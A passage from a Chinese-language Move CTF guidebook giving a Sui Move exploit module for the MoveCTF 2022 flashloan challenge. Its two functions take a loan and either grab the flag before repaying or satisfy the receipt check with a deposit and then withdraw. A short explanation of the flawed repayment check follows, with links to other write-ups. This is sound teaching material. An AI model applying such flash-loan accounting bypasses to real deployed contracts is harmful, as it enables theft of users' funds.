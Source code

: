 ```

    
    
    /// Module: exp
    module exp::exp {
      use sui::tx_context::TxContext;
      use movectf2022_flashloan::flash::{Self, FlashLender};
      public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);
        flash::get_flag(lender, ctx);
        flash::repay(lender, coin);
        flash::check(lender, receipt);
      }
      public entry fun exp2(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);
        flash::deposit(lender, coin, ctx);
        flash::check(lender, receipt);
        flash::withdraw(lender, 1000, ctx);
        flash::get_flag(lender, ctx);
      }
    }
    
```

问题在于：coin可以通过`deposit`消耗掉.通过`check`消耗`receipt`时不需要发送coin.而且check判断余额的方式也不对。

## [拓展](#拓展)

https://github.com/movebit/movectf2024-day1/tree/main/swap

## [参考资料](#参考资料)

感谢大佬们无私分享

  * [MoveCTF 2022 题解](https://lanford33.com/movectf-2022)
  * [MoveCTF 所有题解Writeup](https://learnblockchain.cn/index.php/article/5025)

[ ](../quick/MoveCTF2022_1.html "Previous chapter") [ ](../letsmove/index.html "Next chapter")

[ ](../quick/MoveCTF2022_1.html "Previous chapter") [ ](../letsmove/index.html "Next chapter")

# index.html
# 《From 0 to Hero : Move CTF 指北》

[ ](../print.html "Print this book")

# [letsmove](#letsmove)

Move 分家了，这里主要讲的是Sui move
